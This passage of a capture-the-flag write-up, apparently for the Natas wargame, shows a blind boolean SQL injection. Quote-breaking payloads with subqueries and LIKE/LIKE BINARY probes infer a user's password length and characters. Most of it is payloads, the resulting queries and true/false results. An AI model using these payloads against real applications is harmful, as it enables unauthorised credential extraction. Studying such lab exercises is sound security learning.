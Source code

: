 So now lets test the password lenght.

```text
input  : natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=1#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=1#  
Result : false
```

so far all the passwords had a lenght of 32, so lets that that.

```text
input  : natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=32#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=32#  
Result : true
```

now lets test the actual password  
first verify with the username

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "a%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "a%"#  
Result : false
```

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "n%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "n%"#  
Result : true
```

So we know this works. Now lets try the password.

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "W%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "W%"#
Result : true
```

but if we try

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "w%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "w%"#
Result : true
```

this also works. This is because LIKE is case insensitive, we should use LIKE BINARY.

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "N%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "N%"#
Result : false
```
